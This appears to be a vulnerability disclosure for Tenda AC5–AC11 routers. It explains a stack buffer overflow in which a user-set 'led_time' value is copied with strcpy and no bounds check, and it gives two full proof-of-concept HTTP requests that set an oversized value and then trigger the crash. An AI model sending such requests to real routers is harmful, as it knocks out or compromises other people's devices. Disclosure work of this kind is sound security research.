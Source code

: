 # Tenda Router Vulnerability

This vulnerability exists in  module `LEDControl` of  `/goform/getPowerSave`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

![pic/Untitled.png](pic/Untitled.png)

There is a stack buffer overflow vulnerability in the `sub_8008697C` function.(page  /goform/getPowerSave)

In this function, it will use `nvram_get((int)"led_time");` to  gets an NVRAM variable, which is then placed in a `V5` variable. After that ,it will use `Strcpy (v8, v5);`  to copy the `V5` on the `V8` without any security checks.

The  `led_time`  NVRAM variable can be controlled in the `sub_8008681C` function.

![pic/Untitled1.png](pic/Untitled%201.png)

You can see that it's assigned by `v10`.

![pic/Untitled2.png](pic/Untitled%202.png)

Initially `v10` is what we inputed, so the `led_time` NVRAM variable becomes manageable.

Thus, by first setting the `led_time` on the page `/goform/setPowerSave` and then requesting the page `/goform/getPowerSave`, an attacker can easily perform a denial-of-service attack or remote code execution using crafted overflow data.

## POC

```
POST /goform/setPowerSave HTTP/1.1
Host: 192.168.0.1
Content-Length: 188
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=LEDControl&LEDStatus=2&LEDCloseTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

```
GET /goform/getPowerSave?random=0.7312766635668926&modules=LEDControl HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Verify

Vulnerability demo

![pic/Untitled3.png](pic/Untitled%203.png)

![pic/Untitled4.png](pic/Untitled%204.png)

If the number of characters were longer, it would be enough to overflow.